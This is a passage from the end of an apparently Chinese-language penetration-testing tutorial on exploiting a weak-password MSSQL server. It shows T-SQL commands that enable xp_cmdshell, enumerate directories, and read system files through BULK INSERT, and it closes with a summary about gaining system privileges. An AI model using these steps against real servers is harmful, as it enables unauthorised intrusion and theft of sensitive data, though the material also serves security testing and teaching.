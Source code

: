 ```php
1.  EXEC sp\_configure 'show advanced options', 1  
2.  RECONFIGURE WITH OVERRIDE  
3.  EXEC sp\_configure 'xp\_cmdshell', 1  
4.  RECONFIGURE WITH OVERRIDE  
5.  EXEC sp\_configure 'show advanced options', 0  
6.  RECONFIGURE WITH OVERRIDE  
```

**执行结果：**

/\* 受影响记录行数: 0 已找到记录行: 0 警告: 0 持续时间 1 查询: 0.062 秒. \*/

虽然更新成功但是并未有任何改变，再次执行命令，发现还是不行，再次搜素 xp\_cmdshell. A call to 'CreateProcess' failed with error code: '5'相关问题，发现可能是权限不够，sa 账号可能被降权了，无法直接利用这个方法执行系统命令。那么还能做什么呢？列目录试试：

```php
1.  exec xp\_subdirs 'C:';       #列目录  
2.  exec xp\_dirtree 'c:',1,1   #列文件  
```

![24.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-504805d77205ac7e3798a83c9156e49352984fd6.png)  
可以看到有 360 的目录，之前无法执行 xp\_cmdshell 的原因，可能是杀毒软件给拦截了，那么在进行测试时，可以先看看目标是否存在杀毒软件之类的防护系统，如果有，大概率是无法做更深入的操作的。试试读文件：

```php
1.  create table cmd (a text);  #创建一个表  
2. BULK INSERT cmd FROM ‘c:/RlgwMCS.ini’ WITH ( FIELDTERMINATOR = ‘n’, ROWTERMINATOR = ‘nn’ ) #将文件存入数据库表中  
3.  select \* from cmd    #查询内容  
```

![25.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4e61a4725e039cb5e0e04bf930a55f44807459fb.png)  
这个读文件的能力其实已经可以把系统上大部分关键敏感信息给读取到了。

0x03 总结
=======

本文主要讲了针对 MSSQL 数据库的利用方式，在发现一个 MSSQL 弱口令的服务器之后，如何执行系统命令，从而获取系统权限，除了 MSSQL 能利用来执行系统命令外，还有 Mysql\\redis\\PostgreSQL 等数据库可以利用。